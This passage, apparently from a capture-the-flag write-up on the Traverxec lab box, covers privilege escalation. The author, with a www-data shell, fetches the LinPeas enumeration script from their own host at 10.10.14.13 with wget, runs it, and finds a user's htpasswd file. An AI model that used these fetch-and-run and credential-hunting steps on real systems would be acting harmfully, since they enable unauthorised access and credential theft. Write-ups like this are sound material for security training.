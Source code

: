 Looking around the box it appears there is only one user in the `/home` directory, but we can't access the files.

```text
www-data@traverxec:/home$ cd david
cd david
www-data@traverxec:/home/david$ ls -la
ls -la
ls: cannot open directory '.': Permission denied
```

Lets try uploading LinPeas to the box to help enumerate more. First I'll start a Python web server using `python -m http.server 80 ` and then use wget to fetch the file:

```text
www-data@traverxec:/tmp$ wget http://10.10.14.13/linpeas.sh
wget http://10.10.14.13/linpeas.sh
--2023-05-09 15:20:18--  http://10.10.14.13/linpeas.sh
Connecting to 10.10.14.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776967 (759K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... ..........  6%  335K 2s
    50K .......... .......... .......... .......... .......... 13%  711K 1s
   100K .......... .......... .......... .......... .......... 19%  854K 1s
   150K .......... .......... .......... .......... .......... 26%  855K 1s
   200K .......... .......... .......... .......... .......... 32% 1.40M 1s
   250K .......... .......... .......... .......... .......... 39%  715K 1s
   300K .......... .......... .......... .......... .......... 46%  710K 1s
   350K .......... .......... .......... .......... .......... 52%  756K 1s
   400K .......... .......... .......... .......... .......... 59% 1.52M 0s
   450K .......... .......... .......... .......... .......... 65% 1.08M 0s
   500K .......... .......... .......... .......... .......... 72%  765K 0s
   550K .......... .......... .......... .......... .......... 79% 1.44M 0s
   600K .......... .......... .......... .......... .......... 85% 1.22M 0s
   650K .......... .......... .......... .......... .......... 92%  843K 0s
   700K .......... .......... .......... .......... .......... 98% 1.45M 0s
   750K ........                                              100% 4.07M=0.9s

2023-05-09 15:20:19 (853 KB/s) - 'linpeas.sh' saved [776967/776967]

www-data@traverxec:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@traverxec:/tmp$ ./linpeas.sh
```

Cool, LinPeas quickly finds an htpasswd for David. 

![htpasswd.png](../assets/traverxec_assets/htpasswd.png)
